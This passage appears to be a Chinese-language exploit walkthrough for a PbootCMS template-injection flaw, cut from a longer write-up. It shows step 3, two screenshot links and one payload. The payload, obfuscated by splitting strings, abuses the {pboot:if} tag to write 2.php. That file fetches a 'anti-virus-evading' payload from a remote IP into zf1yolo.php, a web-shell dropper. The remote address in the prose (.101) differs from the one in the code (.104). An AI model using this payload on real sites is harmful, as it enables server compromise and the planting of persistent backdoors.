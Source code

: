 <img src=".\图片\Snipaste_2023-05-11_13-42-51.png" alt="Snipaste_2023-05-11_13-42-51" style="zoom:80%;" />

3、同样操作，生成 2.php，访问 `http://www.cf1.com/2.php`，会在当前目录生成 zf1yolo.php ，其中的内容为远程地址  `http://192.168.0.101:8082/2.txt` 里的免杀 payload

```
{pboot:if(implode('',['f','i','l','e','_','p','u'.'t','_c','o','n','t','e','n','t','s'])(implode('',['2','.php']),
implode('',['<?php
file_','put_','contents(','"zf1yolo.php",','file','_get_','contents("','http://192.168.0.104/2.txt"))?>'])))}!!!{/pboot:if}
```

<img src=".\图片\Snipaste_2023-05-11_13-55-59.png" alt="Snipaste_2023-05-11_13-55-59" style="zoom:80%;" />
